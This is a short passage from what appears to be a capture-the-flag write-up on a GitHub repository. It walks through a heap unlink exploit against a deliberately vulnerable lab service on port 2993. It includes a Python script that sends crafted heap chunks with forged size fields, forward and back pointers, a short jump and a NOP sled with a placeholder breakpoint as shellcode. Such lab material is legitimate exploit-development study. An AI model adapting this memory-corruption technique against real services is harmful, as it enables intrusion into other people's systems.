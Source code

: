 Nice! all we have to do now is to place our shellcode and bam

but, our shellcode will get destoyed at addresses 0x0804e0a0-0x0804e0a3 because of the second write unlink does
but we can fix this easily with a simple "\xeb\x0c" with some NOPS to jump 12 bytes, over the destoyes bytes to our shellcode

```python
import socket
import struct

s = socket.socket(socket.AF_INET)
s.connect(('127.1', 2993))

# first chunk
ck1 = "FSRD/0000ROOT/1111"
ck1 += "/" * (128 - (len(ck1)))
s.send(ck1)

# second chunk
ck2 = "FSRDROOT/"
ck2 += struct.pack('I', 0xfffffffc)
ck2 += struct.pack('I', 0xfffffffc)
#FD and BK
ck2 += struct.pack('I', 0x0804d41c - 12)
ck2 += struct.pack('I', 0x0804e098)
#shellcode
ck2 += "\xeb\x0a"
ck2 += '\x90' * 20
ck2 += '\xcc'

ck2 += "A" * (128 - (len(ck2)))
s.send(ck2)
```
![image4](https://github.com/YazoSh/ctf-writeups/raw/master/images/final2-4.png)
